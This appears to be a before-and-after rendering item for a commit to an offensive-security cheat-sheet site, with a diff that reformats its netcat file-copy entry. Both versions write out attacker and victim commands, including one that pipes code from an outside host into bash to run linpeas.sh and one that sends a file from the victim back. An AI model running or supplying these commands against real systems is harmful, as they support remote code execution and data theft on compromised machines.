

Before and after one commit to arttoolkit/arttoolkit.github.io, a Jekyll site: the page built from _wadcoms/netcat-copy_file.md, in a window 1280 px wide, cut to the strip 187-747 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

```diff
--- a/_wadcoms/netcat-copy_file.md
+++ b/_wadcoms/netcat-copy_file.md
@@ -6,12 +6,8 @@ description: |
 
   	File to copy: linpeas.sh
 
-    Copy from attacker to victim
-      nc -lvnp 9001 < linpeas.sh (attacker)
-      nc 10.10.21.14 9001 | bash (victim)
-    Copy from victim to attacker
-      nc 10.10.21.14 9001 < file.txt (victim)
-      nc -lvnp 9001 > file.txt (attacker)
+    Copy from attacker to victim: nc -lvnp 9001 < linpeas.sh (attacker) & nc 10.10.21.14 9001 | bash (victim)
+    Copy from victim to attacker: nc 10.10.21.14 9001 < file.txt (victim) & nc -lvnp 9001 > file.txt (attacker)
 
 
 command: |
```
